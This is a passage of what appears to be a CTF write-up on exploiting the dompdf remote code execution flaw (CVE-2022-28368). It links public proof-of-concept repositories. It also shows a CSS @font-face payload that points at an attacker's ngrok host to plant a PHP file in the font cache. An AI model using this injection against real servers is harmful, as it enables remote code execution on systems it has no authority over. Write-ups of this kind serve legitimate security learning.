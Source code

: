 Upon looking for exploits for dompdf, there was a RCE vulnerability applicable on the same version.

[This](https://positive.security/blog/dompdf-rce) post explains the vulnerability really well so I'll only discuss about it briefly.

{{< admonition tip "dompdf RCE" >}}
Dompdf versions <1.2. 1 are vulnerable to Remote Code Execution (RCE) by injecting CSS into the data. The file can be tricked into storing a malicious font with a . php file extension in its font cache, which can later be executed by accessing it from the web.
{{< /admonition >}}

Source: https://github.com/rvizx/CVE-2022-28368

To make the exploit work, we first need to take a valid `.ttf` file and change the extension to `.php`. This approach is the actual way to exploit it but for some reason if I was using any `.ttf` file and append the `php` in it then it was showing parsing errors.

So I tried looking for POCs and [this](https://github.com/positive-security/dompdf-rce) one's php file worked without any errors.

Git clone the above repo and `cd` into the `exploit` folder.

![git repo](49.png "git repo")

Start a `ngrok` server and put its IP into the `exploit.css` file.

```css
@font-face {
    font-family:'exploitfont';
    src:url('<YOUR_ngrok_IP>/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Contents of `exploit_font.php` are as follows.

![exploit_font.php](50.png "exploit_font.php")
